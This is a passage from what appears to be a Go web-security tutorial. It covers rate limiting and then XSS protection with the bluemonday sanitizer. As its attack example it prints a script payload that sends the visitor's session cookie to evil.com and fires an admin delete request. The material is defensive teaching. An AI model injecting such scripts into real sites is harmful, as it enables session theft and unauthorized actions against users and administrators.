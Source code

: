 ```go

	// Check if over limit
	return count <= int64(limit), nil
}
```

### What You Learned

✅ Why rate limiting is essential for production applications
✅ How token bucket algorithm works
✅ How to implement per-IP rate limiting in Go
✅ How to apply different limits to different endpoints
✅ Best practices for rate limit HTTP headers
✅ How to prevent memory leaks in long-running servers

---

## 3. XSS Protection

### Why This Matters

**Cross-Site Scripting (XSS)** allows attackers to inject malicious scripts into your pages.

**Attack Example:**

User creates a post with content:
```html
Hey check this out! <script>
  // Steal session cookie
  fetch('https://evil.com/steal?cookie=' + document.cookie);

  // Delete all threads
  fetch('/admin/delete-board', {method: 'POST', body: 'board_id=1'});
</script>
```

When admin views the thread, the script executes as the admin!

**Current Protection:** Go's `html/template` package escapes HTML by default (good!), but you should add defense-in-depth.

### Step 1: Install Sanitization Library

```bash
go get github.com/microcosm-cc/bluemonday
```

### Step 2: Create Content Sanitizer

Create new file `sanitize.go`:

```go
package main

import (
	"github.com/microcosm-cc/bluemonday"
	"html"
)

var (
	// StrictPolicy strips ALL HTML tags
	StrictPolicy = bluemonday.StrictPolicy()

	// UGCPolicy allows user-generated content with safe formatting
	// Allows: bold, italic, underline, links, lists
	UGCPolicy = bluemonday.UGCPolicy()
)
```